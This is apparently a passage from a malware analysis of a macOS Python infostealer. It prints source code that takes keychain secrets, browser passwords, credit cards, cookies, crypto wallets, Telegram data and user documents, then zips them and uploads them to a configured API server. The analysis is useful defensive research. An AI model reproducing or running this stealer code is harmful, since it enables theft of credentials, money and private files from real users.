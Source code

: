 ```python
            arg1.keychain, arg1.macpassword = Keychain(config=(arg1.config)).keychain() #<-------------------- (7)
	    if arg1.keychain:
                if arg1.macpassword:
                    arg1.generalInfo[J] = len(arg1.keychain)
                    arg1.decryption_keys = Keychain(config=(arg1.config)).get_safe_key(arg1.keychain)  #<-------------------- (8)
		            browsers_py = Browsers(arg1.decryption_keys)
                    arg1.passwords, arg1.cc, arg1.cookies, M = browsers_py.browser_data() #<-------------------- (9)
        [...]
                    wallets_py = Wallets(browsers_paths=extension_paths, temp_folder_path=(arg1.temp_folder_path), macpassword=(arg1.macpassword), passwords=(arg1.passwords))
                    all_wallets = wallets_py.get_all_wallets()  #<-------------------- (10)
            extensions_py = Extensions()
            d = extensions_py.get_all_extension_paths(extension_paths)
            for I in d:
                files_py.copy_all_files_to_folder(I['path'], I[H], f"{arg1.temp_folder_path}/browser_data/{I['browser']}/{I['profile']}/extensions/")

            arg1.generalInfo['macpassword'] = arg1.macpassword
            files_py.create_txt_file_from_dict(arg1.generalInfo, 'general_info', arg1.temp_folder_path)
            arg1.zip_file_path = files_py.create_zip_file(arg1.temp_folder_path, arg1.generalInfo[H])
            e = {R: arg1.config[R], 'buildname': arg1.config['app_name'], H: arg1.generalInfo[H], 'wallets': all_wallets if all_wallets else [], 'os': arg1.generalInfo['os'], S: arg1.generalInfo[S], 'ip': arg1.generalInfo['ip'], J: arg1.generalInfo[J], E: arg1.generalInfo[E], F: arg1.generalInfo[F], G: arg1.generalInfo[G], T: arg1.config[T], U: arg1.config[U], V: arg1.config[V]}
            print(files_py.upload_zip_file(arg1.config['api_url'], f"{arg1.zip_file_path}", e))            #<-------------------- (11)
                   
```

`Main.main()`  creates a temp folder with a random name at `(3)`. At `(4)`, `General().get_general_info()` returns a dictionary containing platform name, os name, os version, and IP address.  

At `(4)`, `files_py.get_all_files()` gets the files with the following extensions from `Desktop`, `Documents`, `Downloads`, `Movies`, `Music`, `Pictures`, and `Public` folders and copies them to the temp folder: 
```python
# file en_data/files.py 
  A.support_file_extensions = [
         '.txt','.doc','.docx','.pdf','.xls','.xlsx','.ppt','.pptx','.jpg','.png','.bmp','.mp3','.zip','.rar','.py','db','.csv','.jpeg']
```

At `(6)`  `Misc.get_data()` is called which copies `tdata` files of the Telegram application and the default keychain file to the temp directory: 
```python 
# endata/misc.py
[...]
            A.tg_path = glob.glob(f"{A.app_data_path}/Telegram Desktop/tdata")[0]
            A.files.copy_all_files_to_folder(f"{A.tg_path}", 'Telegram', f"{A.temp_folder_path}")
[...]

            A.keychain_path = subprocess.check_output('security default-keychain', shell=_A).decode('utf-8').strip().replace('"', '')
            A.files.copy_single_file_to_folder(f"{A.keychain_path}", A.keychain_path.split('/')[-1], f"{A.temp_folder_path}")
            return _A
            A.files.copy_all_files_to_folder(f"{A.tg_path}", 'Telegram', f"{A.temp_folder_path}")
[...]
```
